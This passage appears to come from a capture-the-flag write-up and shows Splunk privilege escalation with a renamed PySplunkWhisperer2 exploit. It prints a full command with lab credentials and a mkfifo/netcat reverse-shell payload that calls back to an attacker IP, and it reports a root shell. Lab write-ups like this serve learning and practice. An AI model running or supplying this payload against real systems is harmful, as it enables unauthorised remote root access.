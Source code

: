 ![](pics/splunk_loggedin.png)

Now we can use the tool to create an App for us (with user specified payload). But don't forget to set up your nc listener!

```
python3 exploit.py --username="shaun" --password="Guitar123" --payload='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 5555 >/tmp/f' --payload-file='pwn.sh'
```

(Exploit.py is the PySplunkWhisperer2_local.py, but I renamed it for convenience.)

And we obtain a root shell! We pwned the machine.

![](pics/root_shell.png)